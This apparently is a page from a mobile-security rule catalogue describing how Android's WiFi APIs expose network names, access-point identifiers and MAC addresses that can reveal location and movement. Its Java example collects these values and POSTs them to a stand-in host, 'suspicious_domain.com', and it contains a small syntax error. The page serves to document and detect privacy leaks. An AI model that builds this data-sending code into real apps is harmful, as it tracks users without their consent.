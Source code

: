 Android APK WiFi API allows access to Personal Identifiable Information (PII) such as network names and access points usage history, potentially leading to private data inference.

Applications using the `ACCESS_WIFI_STATE` permission and calling APIs like `getConnectionInfo` can access sensitive information about WiFi access points (such as BSSID, SSID, and RSSI) and potentially infer:

* MAC Address which is a unique device identifier.
* Geolocation data by using surrounding WiFi access points.
* User movement history and social links inference relying on repeating patterns in WiFi access point usage.

### Examples

=== "Java"

 ```java
 
    import android.content.Context;
    import android.net.wifi.WifiInfo;
    import android.net.wifi.WifiManager;
    import java.net.HttpURLConnection;
    import java.net.URL;
    import java.io.OutputStream;
    import java.nio.charset.StandardCharsets;
    
    public class WifiInfoRetriever {
    
        private Context context;
    
        public WifiInfoRetriever(Context context) {
            this.context = context;
        }
    
        public void retrieveWifiInfo() {
            WifiManager wifiManager = (WifiManager) context.getSystemService(Context.WIFI_SERVICE);
            
            if (wifiManager.isWifiEnabled()) {
                WifiInfo wifiInfo = wifiManager.getConnectionInfo();
                
                String ssid = wifiInfo.getSSID();
                String bssid = wifiInfo.getBSSID();
                int rssi = wifiInfo.getRssi();
                String macAddress = wifiInfo.getMacAddress();
                
                // Construct JSON with data
                String jsonInputString = String.format("{\"ssid\":\"%s\", \"bssid\":\"%s\", \"rssi\":%d, \"macAddress\":\"%s\"}",
                ssid, bssid, rssi, macAddress);
                
                try {
                    // Endpoint URL
                    URL url = new URL("http://suspicious_domain.com/api/networks");
                    HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                    
                    // Connection setup
                    connection.setDoOutput(true);
                    connection.setRequestMethod("POST");
                    connection.setRequestProperty("Content-Type", "application/json");
                    
                    try (OutputStream os = connection.getOutputStream()) {
                        byte[] input = jsonInputString.getBytes(StandardCharsets.UTF_8);
                        os.write(input, 0, input.length);
                    }
                    // Additional analysis could be performed when the data reaches the endpoint
                    // such as inferring location or movement patterns of users             
                    connection.disconnect();
                } catch (Exception e) {
                    e.printStackTrace():
                }
            } else {
                System.out.println("WiFi is not enabled");
            }
        }
    }
 ```

